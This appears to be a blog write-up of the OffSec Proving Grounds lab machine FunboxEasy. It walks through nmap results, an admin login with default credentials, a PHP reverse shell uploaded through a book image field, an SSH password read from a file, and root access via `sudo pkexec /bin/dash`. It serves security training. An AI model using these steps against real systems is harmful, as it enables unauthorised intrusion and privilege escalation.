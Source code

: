```yaml
---
title: "Proving grounds Play: FunboxEasy"
layout: post
date: 2023-09-16 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/web.png)

http://192.168.169.111/store/

## Admin Login

http://192.168.169.111/store/admin.php

Use credentials `admin:admin` for the admin login.

## Upload Reverse Shell

Click Add new book and upload php reverse shell on the image section and post the book.

Direct to the books page to trigger reverse shell.

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/shell.png)

A file named `password.txt` located in the user `tony` folder has password of SSH login.

## Privilege Esclation

Login to user tony via SSH using the credentials and run `sudo -l` to check the permissions.

```sh
tony@funbox3:~$ sudo -l
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

**GTFO Bins Exploit**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/gtfo.png)

Alternatively the root privilege can be elevated via the `pkexec` binary as well.

```sh
sudo pkexec /bin/dash
```

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).